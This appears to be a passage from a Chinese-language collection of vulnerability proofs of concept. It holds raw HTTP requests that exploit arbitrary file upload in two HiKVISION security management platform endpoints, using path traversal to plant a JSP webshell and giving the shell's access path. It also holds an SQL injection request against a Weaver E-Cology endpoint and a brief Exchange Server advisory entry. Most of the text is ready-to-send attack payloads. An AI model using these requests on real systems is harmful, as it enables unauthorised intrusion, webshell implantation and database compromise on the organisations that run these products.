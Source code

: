 ### 18、HiKVISION 综合安防管理平台 report 任意文件上传漏洞 POC

POST /svm/api/external/report HTTP/1.1
Host: 10.10.10.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%jsp的马%>

------WebKitFormBoundary9PggsiM755PLa54a--

马儿路径：/portal/ui/login/..;/..;/new.jsp

### 19、HiKVISION 综合安防管理平台 files 任意文件上传漏洞 POC

POST /center/api/files;.html HTTP/1.1
Host: 10.10.10.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%jsp的马%>
------WebKitFormBoundary9PggsiM755PLa54a--

### 20、Exchange Server远程代码执行漏洞（CVE-2023-38182）风险通告 

待补充poc exp
描述和影响范围
Exchange Server 2019 Cumulative Update 13
Exchange Server 2019 Cumulative Update 12
Exchange Server 2019 Cumulative Update 11
Exchange Server 2016 Cumulative Update 23
需要有普通用户权限

### 22、某微 E-Cology 某版本 SQL注入漏洞 POC

POST /dwr/call/plaincall/CptDwrUtil.ifNewsCheckOutByCurrentUser.dwr HTTP/1.1
Host: ip:port 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close 

Content-Length: 189
Content-Type: text/plain
Accept-Encoding: gzip

callCount=1
page=
httpSessionId=
scriptSessionId=
c0-scriptName=DocDwrUtil
c0-methodName=ifNewsCheckOutByCurrentUser
c0-id=0
c0-param0=string:1 AND 1=1
c0-param1=string:1
batchId=0
